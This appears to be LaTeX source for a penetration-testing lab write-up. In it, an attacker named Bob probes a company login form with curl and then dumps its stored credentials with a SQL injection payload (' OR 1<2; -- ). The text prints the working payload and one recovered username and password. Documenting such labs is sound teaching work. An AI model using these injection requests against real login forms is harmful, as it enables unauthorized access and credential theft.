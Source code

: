 \documentclass[a4paper, 12pt, oneside]{extbook}
\begin{document}
In this case, the attacker Bob uses a mix of remote exploits to gain root access on the Employee PC.

\section{Sql Injection}
The attacker starts from the company web service by filling the login form with different combinations:

\begin{lstlisting}[style=DOS]
curl -X POST -d 'username=a&password=b' 193.20.3.1:8080
\end{lstlisting}
In this case, the website uses an url-encoded form, so the attacker can send the data as an url-encoded string. This one returns "Error value(s) missing".
\newline The attacker tries to tamper the form with another combination:
\begin{lstlisting}[style=DOS]
  curl -X POST -d 'username=&password=b' 193.20.3.1:8080
\end{lstlisting}
which returns:
\begin{lstlisting}[style=DOS]
  {"success":false,"response":"No user found","result":[]}
\end{lstlisting}
Lastly, the attacker can try to insert a payload with a MySQL Injection, that uses OR and the commenting syntax:
\begin{lstlisting}[style=DOS]
  curl -X POST -d 'username=" OR 1<2; -- &password=b' \
  193.20.3.1:8080
\end{lstlisting}
which returns a list of credentials:
\begin{center}
  \includegraphics[scale=0.5]{../Image/webserver_sql.PNG}
\end{center}
including an entry related to the user Tom:
\begin{lstlisting}[style=DOS]
  username = tcasaccio1
  password = YLN1NrMdGN
\end{lstlisting}
\end{document}
